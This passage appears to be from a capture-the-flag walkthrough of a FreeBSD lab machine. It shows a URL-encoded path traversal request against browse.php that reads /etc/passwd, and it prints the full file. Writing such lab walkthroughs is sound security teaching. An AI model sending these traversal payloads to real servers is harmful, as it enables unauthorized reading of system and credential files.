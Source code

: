 {% endhighlight %}

Let's check if this works by entering the file name `phpinfo.php`, listed in the main page. 

{% highlight text %}
http://10.10.10.84/browse.php?file=phpinfo.php

Configuration File (php.ini) Path 	/usr/local/etc
Loaded Configuration File 		/usr/local/etc/php.ini
Scan this dir for additional .ini files /usr/local/etc/php
{% endhighlight %}

But can we get files other as those shown before? Let's try that by entering the path to `/etc/passwd` file. 

{% highlight text %}
http://10.10.10.84/browse.php?file=..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5:System &:/:/usr/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin
news:*:8:8:News Subsystem:/:/usr/sbin/nologin
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin
proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin
www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
_ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin
hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
_tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin
messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin
avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin
cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin
charix:*:1001:1001:charix:/home/charix:/bin/csh
{% endhighlight %}
